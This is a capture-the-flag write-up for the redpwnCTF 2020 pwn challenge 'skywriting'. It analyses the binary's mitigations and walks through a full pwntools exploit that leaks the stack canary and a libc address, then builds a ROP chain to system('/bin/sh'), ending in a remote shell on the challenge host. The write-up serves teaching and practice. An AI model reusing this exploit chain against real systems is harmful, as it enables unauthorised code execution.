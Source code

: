 # redpwnCTF 2020

## pwn/skywriting

> NotDeGhost
> 
> 480
>
> It's pretty intuitive once you [disambiguate some homoglyphs](https://medium.com/@TCS_20XX/pactf-2018-writeup-skywriting-a5f857463c07), I don't get why nobody solved it...
> 
> `nc 2020.redpwnc.tf 31034`
>
> [`skywriting.tar.gz`](skywriting.tar.gz)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_ _stack-canary_


## Summary

Canary leak to enable BOF, ROP, Shell.

> BTW, this is the first time I noticed the _homoglyphs_ link in the task description.  It has zero to do with this challenge.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Default `gcc` mitigations in place. 

    
### Decompile with Ghidra

![](main.png)

At first glance, if you start out with anything other than `1`, then you get `/bin/zsh`, easy:

```
# nc 2020.redpwnc.tf 31034
Hello there, do you want to write on the sky?
no
:(, take this shell instead
```

No shell, it wasn't going to be _that_ easy, but worth checking anyway.

So, start out with a `1` and you'll be in a loop until you send `notflag{a_cloud_is_just_someone_elses_computer}\n`.  While in this loop `read` will _read_ up to `0x200` bytes into a buffer that will bump up to the canary after `0x98 - 0x10` bytes (see Ghidra stack diagram).

The stack check does not happen until after the loop exits, so you can safely overwrite and read the stack.

Ignore `FUN_0010093a()`, it's just there to provide one of five different trolling messages.


### Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./skywriting')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31034)
```

Initial setup.  The libc version was implied in the included `Dockerfile` (Ubuntu 18.04).

```python
# get canary
p.sendlineafter('sky? \n','1')
payload = (0x98 - 0x10 + 1) * b'A'
p.sendafter('shot: ',payload)
p.recvuntil((0x98 - 0x10 + 1) * b'A')
_ = b'\x00' + p.recv(7)
canary = u64(_)
log.info('canary: ' + hex(canary))
```

First pass, leak the canary.  Established in the Analysis section, the canary is `0x98 - 0x10` down from the input buffer (`local_98`), by adding `1` more `A` to the payload we'll corrupt the least significant canary byte, a byte that is always `0x00`, so no information lost.  By replacing the null, the `printf` on line 32 (see decompile above) will print all our `A`'s followed by the canary and anything else down stack until a null is reached.

> Notice the use of `send` vs `sendline`, we do not want a NL corrupting the 2nd to last canary byte, then we lose information.  OTOH, I guess if the NL landed on the last byte (the known null byte), then it'd be fine.

```python
# get libc, just after rbp
# __libc_start_main+231
payload = 0x98 * b'A'
p.sendafter('shot: ',payload)
p.recvuntil(0x98 * b'A')
_ = p.recv(6) + b'\x00\x00'
__libc_start_main = u64(_) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
```

Second pass.  Leak libc.  I used GDB to find libc in the stack.  I just set a break point at the first `puts` and then looked at the stack from the canary down:

```
0x00007fffffffe538│+0x0098: 0xca6f52637c914000
0x00007fffffffe540│+0x00a0: 0x0000555555554b70  →   push r15 ← $rbp
0x00007fffffffe548│+0x00a8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

The first line is the canary, and right after `$rbp` is the return address that also happens to be a libc address, so we just need to write out `0x98` (`local_98` is `0x98` bytes from the return address--see Ghidra stack diagram) bytes to get to the return address which happens to be `__libc_start_main+231` from libc.

The libc leak code is not unlike the canary leak code.  In both cases as long as there is no null in the canary or the last 6 bytes of the return address, we're good to go (probably not a bad idea to check).

> x86_64 addresses are only 48-bits (for now), so we only need to collect 6 bytes.

```python
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

# lets get out of here
payload  = b'notflag{a_cloud_is_just_someone_elses_computer}\n\x00'
payload += (0x98 - 0x10 - len(payload)) * b'A'
payload += p64(canary)
payload += 8 * b'B'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.symbols['system'])
p.sendafter('shot: ',payload)

p.interactive()
```

Final pass.  With the leaked canary and libc location known we can BOF and ROP to a shell.  To get past the `strcmp` check, a null needs to be inserted in the payload--that is as far as `strcmp` will check.  The rest of the payload is `A`'s up to, but not including the canary, then the leaked canary, then any 8 bytes for RBP, then our ROP chain to a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/skywriting/bin/skywriting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2020.redpwnc.tf on port 31034: Done
[*] canary: 0x32aac44eaca73d00
[*] __libc_start_main: 0x7f690a80aab0
[*] baselibc: 0x7f690a7e9000
[*] Loaded 196 cached gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
[*] Switching to interactive mode
Good job! You did it!
$ cat flag.txt
flag{a_cLOud_iS_jUSt_sOmeBodY_eLSes_cOMpUteR}
```
